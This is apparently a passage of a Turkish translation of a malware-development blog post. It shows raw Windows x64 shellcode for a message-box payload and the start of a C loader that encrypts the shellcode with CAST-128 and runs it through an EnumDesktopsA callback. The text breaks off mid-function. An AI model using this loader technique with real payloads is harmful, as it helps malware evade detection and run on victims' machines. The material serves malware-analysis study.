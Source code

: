 Her zamanki gibi `meow-meow` mesaj kutusu payload’u kullandım:     

```cpp
unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

ve şifresi çözülmüş payload, `EnumDesktopsA` fonksiyonu kullanılarak yürütülür.   

Tam kaynak kodu şu şekildedir (`hack.c`):    

```cpp
/*
* hack.c
* encrypt/decrypt payload 
* via CAST-128 algorithm
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/29/malware-cryptography-31.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define BLOCK_SIZE 8
#define ROUNDS 16
#define KEY_SIZE 16

uint32_t key[4] = {0x01234567, 0x89abcdef, 0xfedcba98, 0x76543210};

// CAST-128 round functions (simplified for demonstration)
void f1(uint32_t *d, uint32_t k) {
  uint32_t I = *d ^ k;
  uint32_t Ia = (I >> 16) & 0xFFFF;
  uint32_t Ib = I & 0xFFFF;
  uint32_t f = ((Ia + Ib) & 0xFFFF); // ensure no overflow
  *d = (*d + f) & 0xFFFFFFFF;
}

void f2(uint32_t *d, uint32_t k) {
  uint32_t I = *d ^ k;
  uint32_t Ia = (I >> 16) & 0xFFFF;
  uint32_t Ib = I & 0xFFFF;
```